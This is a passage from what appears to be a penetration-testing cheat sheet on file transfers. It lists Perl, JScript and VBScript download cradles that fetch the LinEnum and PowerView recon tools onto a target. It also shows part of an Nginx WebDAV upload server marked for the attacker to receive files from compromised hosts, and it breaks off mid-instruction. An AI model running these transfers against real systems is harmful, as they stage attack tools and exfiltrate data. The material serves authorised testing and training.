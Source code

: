 - Perl
```
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

- [JavaScript file upload](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068)
```
# wget.js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));

# Download file
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

- VBScript
```
# VBS code
im xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with

# Download file
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

### Using HTTPS
- **Nginx**
```
# Attacker
## Create Folder to updates
sudo mkdir -p /var/www/uploads/SecretUploadDirectory

## Change owner
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

## Create Nginx config file
in /etc/nginx/sites-available/upload.conf 
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}

## Symling Site do sites-enabled
```